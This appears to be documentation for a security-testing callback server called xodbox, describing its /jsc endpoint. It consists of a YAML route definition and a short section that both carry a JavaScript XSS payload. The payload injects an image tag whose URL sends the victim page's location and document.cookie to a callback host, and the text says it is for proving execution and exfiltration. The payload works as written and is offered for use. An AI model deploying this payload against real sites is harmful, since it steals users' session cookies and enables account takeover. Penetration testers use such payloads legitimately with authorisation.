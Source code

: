 ```yaml
---
title: XSS JavaScript
description: Returns JS that embeds an image back to xodbox
weight: -500
pattern: /jsc$
is_final: true
data:
  headers:
    Content-Type: text/javascript
  body: |
    (function (){
        var s = document.createElement("img");
        document.body.appendChild(s);
        s.src="{{ .CallBackURL}}?src="+window.location+"&c="+document.cookie;
    })()
---
```


### /jsc

Simple JS Payload. Useful form embedding or quickly copying and modifying for an XSS payload to prove execution and
exfil.

```javascript
(function (){
    var s = document.createElement("img");
    document.body.appendChild(s);
    s.src="//{{.Request.Host}}/jscb?src="+window.location+"&c="+document.cookie;
})()

```
